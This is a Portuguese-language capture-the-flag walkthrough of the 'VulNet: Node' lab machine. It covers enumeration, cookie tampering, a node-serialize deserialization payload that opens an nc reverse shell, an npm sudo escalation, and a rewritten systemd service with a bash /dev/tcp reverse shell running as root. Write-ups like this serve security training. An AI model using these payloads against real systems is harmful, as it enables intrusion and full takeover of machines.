










# _**VulNet: Node CTF**_


## _**Enumeração**_
Primeiro, vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap -p 0-9999 -A -T5 [ip_address]
> ```


Temos um website, vamos investigar  
Procurando por informações relevantes, encontramos uma página de login
Testaram-se algumas entradas como **admin** e também SQL Injection, mas sem sucesso  
Buscou-se investigar as requisições feitas quanto uma tentativa de login era feita  
Encontrou-se um cookie  



Traduzindo de _URL enconde_ e _base64_, temos: **{"username":"Guest","isGuest":true,"encoding": "utf-8"}**
Realizando algumas alterações, tentamos os seguintes, após codificar em base64 e URL encode  
* {"username":"Guest","isGuest":true,"encoding": "utf-8"}
* {"username":"admin","isGuest":false,"encoding": "utf-8","role":"admin"}
* {"username":"Guest","isGuest":false,"encoding": "utf-8"}
Mas sem sucesso  
Uma nova tentativa foi feita na página principal, mas desta vez com **teste**  



Temos um erro JSON  
Esse módulo, _node-serialize_ é conhecido por ser vulnerável a _**object property injection/Prototype Pollution/Remote Code Execution (RCE)**_ quando mal usado  
Pesquisando mais sobre esse erro, foi encontrado [este artigo](https://medium.com/@chaudharyaditya/insecure-deserialization-3035c6b5766e)  
Ao ler o artigo, construímos nosso _payload_ para ficar assim:
> {"username":"_$$ND_FUNC$$_function() { require('child_process').exec('rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc [ip_address] [port] > /tmp/f'); }()"}

Codificamos ele para base64 cmo <mark>CyberChef</mark> e executamos com <mark>Burpsuite</mark>



## _**Escalando privilégios**_
Primeiro, vamos tentar o comando ```sudo -l```  



Pesquisando em [GFTOBins](https://gtfobins.github.io/gtfobins/npm/), temos  



Parece que o binário é vulnerável e podemos explorar  
Executando os comandos abaixo:
> ```bash
> TF=$(mktemp -d)
> echo '{"scripts": {"preinstall": "/bin/sh"}}' > $TF/package.json
> chmod 777 $TF
> sudo -u serv-manage npm -C $TF --unsafe-perm i
> ```



Agora precisamos escalar para _root_  
Vamos novamente tentar o comando ```sudo -l```  



Localizamos os arquivos e então listamos suas permissões  



```vulnnet-auto.timer``` é um arquivo Timer  
Timers são arquivos de unidade do systemd cujo nome termina em ".timer" e que controlam arquivos .service ou eventos  
Timers podem ser usados ​​como uma alternativa ao cron  

```vulnnet-job.service``` é um arquivo de unidade do systemd, que é o que o systemctl referencia ao iniciar um serviço  
Ele contém informações sobre o serviço a ser executado  



Parece que _ExecStart=/bin/df_ é executado  
Vamos criar um _reverse shell_ para ser executado ao invés de _/bin/df_ já que podemos alterar o arquivo em questão  
Ao tentarmos alterar o arquivo com ```nano```, tudo se torna extremamente bugado  
Tentando alterar com ```echo``` também não funciona  
A solução foi
> printf '[Unit]\nDescription=abc\n\n[Service]\nType=simple\nUser=root\nExecStart=/bin/bash -c "bash -i >& /dev/tcp/[ip_address]/[port] 0>&1"\n\n[Install]\nWantedBy=multi-user.target' > vulnnet-job.service

Basta executar os comandos abaixo com ```netcat``` ligad e obter o _reverse shell_  
> ```bash
> sudo /bin/systemctl stop vulnnet-auto.timer
> sudo /bin/systemctl start vulnnet-auto.timer
> ```

Vá atrás das flags!
